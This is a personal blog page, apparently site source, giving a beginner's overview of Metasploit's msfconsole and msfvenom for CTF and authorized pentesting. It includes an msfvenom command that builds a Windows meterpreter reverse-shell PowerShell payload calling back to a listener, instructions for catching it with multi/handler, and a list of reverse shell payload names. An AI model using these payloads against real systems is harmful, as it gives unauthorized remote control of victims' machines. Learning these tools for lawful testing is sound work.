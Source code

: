 ```yaml
---
layout: page
title: The Metasploit Framework
subtitle: Msfconsole and Msfvenom
image: /assets/fe.ico
description: Brief overview of Metasploit, and its tools msfconsole and msfvenom
permalink: /tipsandtricks/metasploit/
---
```


# Introduction
So what is Metasploit - it's a framework used to find and exploit vulnerabilities on a network, which makes it a great tool for pen testing. That is a very brief (and reductive) summary, you can find more about them on their website [here](https://www.metasploit.com/). The two ways you'll likely use this framework is through `msfconsole` and `msfvenom`, both of which can be accessed from the terminal.
<br><br>
The first of those, `msfconsole`, is used to find and run known exploits, as well as handle the payloads that are generated from `msfvenom`. And, well, `msfvenom` is what was just described - it is used to craft payloads for specific types of operating systems that  can then be used.
<br><br><br>

# Msfconsole
This is often used in conjuction with searching exploit-db or more easily using the `searchsploit` tool. Both of these tools will return a list of any known vulnerabilities associated with a service, OS and/or its version. For instance, an old CTF I did called something like "Tom Ghost" I think had an old Apache Tomcat version. From there, I used `searchsploit` to identify the exploit and then `msfconsole` to actually run it. Another time at work I identified a known vulnerability with a Cisco switch running an outdated service using an auxiliary scanner (...with permission, I should probably mention that). Even though I could not exploit it with Metasploit directly and had to do it manually, it was still able to identify there was a vulnerability there. I hope this gives you an idea of what it can be used for.
<br><br>
For the commands within msfconsole I would reference their notes directly using `help` within the console. The fundamental commands you will use will be `search` to locate exploits, auxiliary scanners and more, `use #` for the exploit, configure it with `options` and `set x z`, before ultimately using `exploit` to run the script.
<br><br>
If you're looking to really dive into this the best way is to actually go and do it - get on HTB or TryHackMe and find a CTF that uses the Metasploit framework. It makes infinitely more sense doing it yourself, and reading about it will not get you very far. Besides, I'm a stranger on the internet and for all you know I'm lying to you.
<br><br>
If you want to see how this tool is used in a CTF I did a write-up on a while back, I will link that [here](/thm/2022/04/18/TomGhost.html).
<br><br><br>

# Msfvenom
As previously mentioned, msfvenom can be used to craft targeted payloads for a given system. These payloads are very customizable - you choose the OS, the file type (example .exe, .ps1, etc), and much more.
<br><br>
That command for a Windows machine as a powershell script might look something like `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.11.38 LPORT=4444 -f ps1 -o reverse_test.ps1`. So long as you can get these payloads onto the target machine and can execute them, you should recieve that reverse shell within msfconsole using their `multi/handler` exploit. Set the payload type to whatever you used in the msfvenom command and the listener should light right up when executed on the other side.
<br><br>
To look at all the flags that can be used with this tool use the typical `msfvenom --help` command for the full list.
<br><br><br>

# Default Reverse Shell List
To make the beginning easy for you, below is a list of some default (auto selected) reverse shell payloads that can be crafted with `msfvenom` and recieved with `msfconsole`. Full disclosure on the following list - I did not put this together, I got it from another site probably a year back and I can't remember which one it was, but I _think_ it was [this one](https://docs.rapid7.com/metasploit/working-with-payloads/). Trying to give credit where it's due. Anyway, this is a good place to start, but for the ENTIRE list of payloads (it's a lot) you can use `msfvenom -l payloads` and then sift through them yourself manually or grep for keywords. Here's that list:<br>
```
windows/meterpreter/reverse_tcp
java/meterpreter/reverse_tcp
php/meterpreter/reverse_tcp
php/meterpreter_reverse_tcp
ruby/shell_reverse_tcp
cmd/unix/interact
cmd/unix/reverse
cmd/unix/reverse_perl
cmd/unix/reverse_netcat_gaping
windows/meterpreter/reverse_nonx_tcp
windows/meterpreter/reverse_ord_tcp
windows/shell/reverse_tcp
generic/shell_reverse_tcp
```
<br>

# Final Thoughts
Open source tools and frameworks like Metasploit and nmap are critical to learn and become proficient in. Paid for tools have their benefits, no doubt about that, but gaining experience with these free tools really expands your capabilities when pentesting. I'm actually working on a write-up right now for work since I recently got permission to go after some of the network devices we have there. Using nmap and msfconsole I have been able to compromise 4 completely distinct devices using just those two tools, it just takes some experience and knowing how to search for information and test your theories. I'm hoping to get permission to post that up here (once all the vulnerabilities have been patched) since it was a great learning experience and I'd like to share a real world example instead of another CTF. Point being, get started on one of those sites I mentioned in the beginning of this page and you'll enjoy the challenge, I promise.
<br><br>
Cheers.
<br>
